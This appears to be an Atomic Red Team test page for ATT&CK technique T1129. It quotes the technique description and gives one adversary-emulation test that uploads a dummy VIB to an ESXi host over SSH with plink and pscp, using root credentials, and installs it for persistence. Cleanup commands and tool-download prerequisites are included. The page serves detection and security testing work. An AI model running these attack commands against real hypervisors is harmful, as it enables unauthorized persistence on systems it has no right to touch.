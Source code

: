 # T1129 - Server Software Component
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1129)
<blockquote>Adversaries may execute malicious payloads via loading shared modules. Shared modules are executable files that are loaded into processes to provide access to reusable code, such as specific custom functions or invoking OS API functions (i.e., [Native API](https://attack.mitre.org/techniques/T1106)).

Adversaries may use this functionality as a way to execute arbitrary payloads on a victim system. For example, adversaries can modularize functionality of their malware into shared objects that perform various functions such as managing C2 network communications or execution of specific actions on objective.

The Linux & macOS module loader can load and execute shared objects from arbitrary local paths. This functionality resides in `dlfcn.h` in functions such as `dlopen` and `dlsym`. Although macOS can execute `.so` files, common practice uses `.dylib` files.(Citation: Apple Dev Dynamic Libraries)(Citation: Linux Shared Libraries)(Citation: RotaJakiro 2021 netlab360 analysis)(Citation: Unit42 OceanLotus 2017)

The Windows module loader can be instructed to load DLLs from arbitrary local paths and arbitrary Universal Naming Convention (UNC) network paths. This functionality resides in `NTDLL.dll` and is part of the Windows [Native API](https://attack.mitre.org/techniques/T1106) which is called from functions like `LoadLibrary` at run time.(Citation: Microsoft DLL)</blockquote>

## Atomic Tests

- [Atomic Test #1 - ESXi - Install a custom VIB on an ESXi host](#atomic-test-1---esxi---install-a-custom-vib-on-an-esxi-host)


<br/>

## Atomic Test #1 - ESXi - Install a custom VIB on an ESXi host
An adversary can maintain persistence within an ESXi host by installing malicious vSphere Installation Bundles (VIBs).
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-malware-persistence)

**Supported Platforms:** Windows


**auto_generated_guid:** 7f843046-abf2-443f-b880-07a83cf968ec





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|
| plink_file | Path to plink | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;plink.exe|
| pscp_file | Path to Pscp | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;pscp.exe|
| vib_install | Path to script with commands to install the vib | path | PathToAtomicsFolder&#92;..&#92;atomics&#92;T1129&#92;src&#92;esxi_vibinstall.txt|
| vib_remove | Path to script with commands to remove the vib | path | PathToAtomicsFolder&#92;..&#92;atomics&#92;T1129&#92;src&#92;esxi_vibremove.txt|
| vib_file | Path to the dummy vib | path | PathToAtomicsFolder&#92;..&#92;atomics&#92;T1129&#92;src&#92;atomicvibes.vib|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{pscp_file} -pw #{vm_pass} #{vib_file} #{vm_user}@#{vm_host}:/tmp
echo "" | "#{plink_file}" "#{vm_host}" -ssh  -l "#{vm_user}" -pw "#{vm_pass}" -m "#{vib_install}"
```

#### Cleanup Commands:
```cmd
echo "" | "#{plink_file}" "#{vm_host}" -ssh  -l "#{vm_user}" -pw "#{vm_pass}" -m "#{vib_remove}"
```



#### Dependencies:  Run with `powershell`!
##### Description: Check if plink and pscp are available.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
if (Test-Path "#{pscp_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\plink.exe"
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/pscp.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\pscp.exe"
```




<br/>
